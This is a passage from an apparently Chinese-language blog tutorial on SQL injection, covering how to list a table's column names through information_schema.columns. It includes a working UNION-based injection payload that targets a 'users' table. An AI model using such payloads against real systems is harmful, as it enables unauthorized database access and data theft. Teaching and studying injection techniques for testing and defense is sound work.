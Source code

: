 这里我们就得到了表名 现在 就可以选择一个表名进行查看

### 爆破列名

这里也是要用到我们的系统数据库

#### information_schema.columns



这个是 系统数据库的字段表

存放着每个数据库的字段信息



<img src="https://i-blog.csdnimg.cn/blog_migrate/8ef80cc83c55818db80c86d60a1d2103.png" alt="" style="max-height:273px; box-sizing:content-box;" />




```cobol
1.我们需要确定我们查询的是什么表
 
2.我们需要的是表的字段名
 
3.通过information_schema.columns 可以查询字段名
 
4.要求是要知道 表名是什么
 
 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/12f65e92f979d359c41fc726e1926ee9.png" alt="" style="max-height:69px; box-sizing:content-box;" />


其中的table_name 就是我们知道的信息（表名）

column_name就是我们需要查询的信息（字段名）

假设我们需要查询的是users表

```cobol
select * from users where id='-1'union select 1,2,GROUP_CONCAT(column_name) from information_schema.columns where TABLE_NAME='users'-- +'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/966d8ef59dc571c90da3c615846ecf3d.png" alt="" style="max-height:425px; box-sizing:content-box;" />


这里就是返回了users的所有字段名



<img src="https://i-blog.csdnimg.cn/blog_migrate/8abdf6dfc4558ff71ef8c3205c8c2369.png" alt="" style="max-height:260px; box-sizing:content-box;" />


这里返回了一些不是表中的字段
